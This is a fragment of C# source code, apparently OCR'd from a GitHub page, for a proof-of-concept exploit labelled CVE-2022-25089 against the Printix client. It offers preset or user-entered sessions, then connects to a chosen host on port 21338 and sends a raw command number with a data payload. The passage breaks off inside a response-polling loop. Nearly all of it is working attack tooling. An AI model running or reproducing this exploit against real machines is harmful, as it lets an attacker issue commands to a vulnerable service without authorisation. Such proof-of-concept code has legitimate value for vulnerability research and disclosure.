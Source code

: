                         command = session.commandNumber;
                        host = session.host;
                        data = session.data;
                        DefaultValues.CurrentSessName = "printixReflectorPackage_" + new Random().Next(1, 200);



                        break;
                    case (2):
                        Session sessionTwo = new Session(49);

                        command = sessionTwo.commandNumber;
                        host = sessionTwo.host;
                        data = sessionTwo.data;
                        DefaultValues.CurrentSessName = "printixReflectorPackage_" + new Random().Next(1, 200);

                        break;
                    case (3):

                        Console.WriteLine("What command number do you want to input?");
                        command = int.Parse(Console.ReadLine().ToString());
                        Console.WriteLine("What IP would you like to use? (Default = localhost)");
                        host = Console.ReadLine();
                        Console.WriteLine("What data do you want to send? (Keep over 4 chars if you are not sure!)");
                        data = Console.ReadLine();

                        Console.WriteLine("What session name do you want to use? ");
                        DefaultValues.CurrentSessName = Console.ReadLine();
                        break;
                    case (4):
                        Console.WriteLine("Not yet implemented.");
                        break;
                }
            }
            catch (Exception e)
            {
                Console.WriteLine("Invalid Input!");
                goto InvalidInputLabel;
            }
            
            Console.WriteLine("Proof Of Concept For CVE-2022-25089 | Version: 1.3.24 | Created by Logan Latvala");
            Console.WriteLine("This is a RAW API, in which you may get unintended results from usage.\n");

            CompCommClient client = new CompCommClient();


            byte[] responseStorage = new byte[25555];
            int responseCMD = 0;
            client.Connect(host, 21338, 3, 10000);

            client.SendMessage(command, Encoding.UTF8.GetBytes(data));
            // Theory: There is always a message being sent, yet it doesn't read it, or can't intercept it.
            // Check for output multiple times, and see if this is conclusive.



            //client.SendMessage(51, Encoding.ASCII.GetBytes(data));
            new Thread(() => {
                //Thread.Sleep(4000);
                if (client.Connected())
                {
                    int cam = 0;
                    // 4 itterations of loops, may be lifted in the future.
                    while (cam < 5)
                    {
